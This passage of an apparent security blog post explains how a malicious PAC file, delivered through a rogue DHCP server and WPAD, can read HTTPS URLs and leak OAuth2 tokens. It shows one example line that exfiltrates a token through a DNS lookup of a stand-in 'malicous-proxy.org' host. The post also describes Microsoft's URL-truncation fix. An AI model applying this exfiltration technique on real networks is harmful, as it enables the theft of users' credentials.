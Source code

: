 The PAC specification was devised in 1996. HTTPS only saw a major uptake from the year 2000 onwards. Up to then, SSL and TLS were available but not used that much. To be fair, SSL had been available in one way or another since 1995, so the PAC spec should have considered this. Still, in those years people were still trying to come up with a [working SSL protocol](https://en.wikipedia.org/wiki/Transport_Layer_Security#History_and_development). It is fair to say interactions with ad-hoc protocols such as PAC and WPAD was not of much concern.

As HTTPS protects URL paths, many applications rely on this functionality. Take for instance [OAuth2](http://oauth.net/2/): it relies on redirects between the resource owner, the authorization server and the client. These redirects may encode security tokens as part of the URL. The OAuth2 spec even warns about this:

> The redirection endpoint SHOULD require the use of TLS as described in Section 1.6 when the requested response type is "code" or "token", or when the redirection request will result in the transmission of sensitive credentials over an open network. - [**RFC 6749, section 3.1.2.1**](https://tools.ietf.org/html/rfc6749#section-3.1.2.1).

A malicious PAC file would have access to this information. It could then proceed to *leak* this information to an attacker. A simple way to do so would be to encode the information in the subdomain part of the proxy URL. For instance, once the important information is collected, the `FindProxyForURL` function could simply return:

```
"PROXY token.2348ab92ab34cdeaf.malicous-proxy.org:8080"
```

This would in turn cause a DNS lookup with the leaked token. If the attacker controls the DNS server (and this is pretty much possible with a fast DHCP server), he or she would then have retrieved the data. Another option for the attacker would be to simply make a direct DNS request using the `dnsResolve` function available from inside the PAC file.

### WPAD Considered Harmful
Although the problem is not directly linked to WPAD, it does compound the problem. An attacker could simply set a rogue (but fast) DHCP server in a shared network, then proceed to hand out malicious DNSs that point to his or her PAC file. All clients with WPAD enabled would silently fall into the trap. And they would do so transparently. As long as the malicious proxy, DNS and DHCP servers are fast enough, users won't notice. Only a security conscious user may for any reason access the proxy settings of his or her computer and then take note a proxy is in use. Still, he would not realize of the malicious behaviour until checking the PAC file or the network requests performed against the proxy.

As another abstract from the upcoming BlackHat conference describes, WPAD attacks, although known for a while, are *still* a source for concern:

> The DNS portion of the experiment revealed more than 38 million requests to the WPAD honeypot domain names from oblivious customers. - [**BADWPAD BlackHat 2016 talk abstract**](https://www.blackhat.com/us-16/briefings.html#badwpad)

### A Sensible Fix
A sensible fix has been implemented by Microsoft. As of Internet Explorer 11 and the Edge browser, the URL argument passed to the `FindProxyForURL` function is truncated to only include the host. There is little reason for a PAC file to require access to the path to compute the right proxy for a host. If there is a legitimate PAC file out there that does this, a better alternative must surely be available.
